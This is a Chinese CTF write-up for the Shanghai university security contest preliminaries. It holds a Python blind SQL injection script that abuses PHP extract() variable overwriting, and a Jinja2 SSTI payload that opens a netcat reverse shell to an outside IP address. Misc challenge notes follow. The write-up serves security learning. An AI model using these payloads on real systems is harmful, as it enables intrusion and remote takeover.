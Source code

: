 title:  第五届上海市大学生网络安全大赛-初赛wp
categories: [CTF]
tags: [wp,web]

---

周末去打了下上海市，虽然有的是原题魔改但感觉有点题还是有点意思，故书之。<!--more-->
## web

### 千毒网盘

从`www.zip`获得了原码。审查原码：

```PHP
foreach(array('_GET', '_POST', '_COOKIE') as $key)
			{   
				if($$key) {
					foreach($$key as $key_2 => $value_2) { 
						if(isset($$key_2) and $$key_2 == $value_2) 
							unset($$key_2); 
					}
				}
			}
			if(isset($_POST['code'])) $_POST['code'] = $pan->filter($_POST['code']);
			if($_GET) extract($_GET, EXTR_SKIP);
			if($_POST) extract($_POST, EXTR_SKIP);
			if(isset($_POST['code']))
			{
				$message = $pan->getfile();
				echo <<<EOF
				<div class="alert alert-dismissable alert-info">
				 <button type="button" class="close" data-dismiss="alert" aria-hidden="true">×</button>
				<h4>
					注意!
				</h4> <strong>注意!</strong> {$message}
				</div>
EOF;
			}
```

发现有可以变量覆盖绕过waf。及get提交一个`_POST['code']` 就可以让post中code覆盖掉。(注意编码就行。)

```python
#coding:utf-8
import requests
import string
import time
url = 'http://eci-2zeikzil0vb2fhx1hg0q.cloudeci1.ichunqiu.com/index.php?_POST[code]='

res = ''
headers = {
	"Host": "eci-2ze5g0l1bms27122px6b.cloudeci1.ichunqiu.com",
	"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
	"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "application/x-www-form-urlencoded"
	}

#ctf
#file,flag
#flag
i = 1
while True:
	max = 255
	min = 0
	while abs(max - min)>1:
		mid = (max + min)//2
		pay = "233333' and if(ascii(substr((select flag from flag),{},1))>{},1,0)#".format(i,mid)
		data = {"code": pay}
		pay2 = "233333' and if(ascii(substr((select flag from flag),{},1))>{},1,0)%23".format(i,mid)
		r = requests.post(url=url+pay2,data=data,headers=headers)
		# print url+pay
		# print data
		# print r.text
		if 'http://127.0.0.1/2333.gif' in r.text:
			min = mid
		else:
			max = mid
	i += 1
	res += chr(max)
	if chr(max) not in string.printable:
		break
	print(res)
```



### Hello

进入题目,根据提示得到了原码.

```python
from flask import Flask,request,render_template
from jinja2 import Template
import os

app = Flask(__name__)

f = open('/flag','r')
flag = f.read()
@app.route('/',methods=['GET','POST'])
def home():
    name = request.args.get("name") or ""
    print(name)
    if name:
        return render_template('index.html',name=name)
    else:
        return render_template('index.html')

@app.route('/help',methods=['GET'])
def help():
    help = '''
    '''
        return f.read()

@app.errorhandler(404)
def page_not_found(e):
    #No way to get flag!
    os.system('rm -f /flag')
    url = name = request.args.get("name") or ""
    # r = request.path
    r = request.data.decode('utf8')
    if 'eval' in r or 'popen' in r or '{{' in r:
        t = Template(" Not found!")
        return render_template(t), 404
    t = Template(r + " Not found!")
    return render_template(t), 404


if __name__ == '__main__':
    app.run(host='0.0.0.0',port=8888)
```

发现在`@app.errorhandler(404)`有ssti。

先访问不存在页面，然后抓包修改为post传参即可绕过page_no_found，然后过滤了一些关键字，字符拼接和'{  %'。由于是无回显，且删除了flag。推测'在linux里如果打开了一个文件而没有关闭，就算删除了文件（即rm -f flag）在/proc/[pid]/fd下还是会存在'的考点，尝试反弹shell，在进程里面找到flag。最终payload:

```
%if 'p'+'open'==os['p'+'open']('nc 39.100.119.234 8080 -t -e /bin/bash') %}1{% endif %}
```



## Misc

### 签到

{echo,ZmxhZ3t3MzFjMG1lNX0=}|{base64,-d}|{tr,5,6} 分析这段代码，怀疑是linux 的命令结果理解，解base64后，将5替换成6.即得到flag。

### pcap analysis

对Modbus协议进行追踪，在分析Modbus协议写寄存器的数据数据时发现 ：

![image-20201115183623046](image-20201115183623046.png)s

拼接后即得到flag。
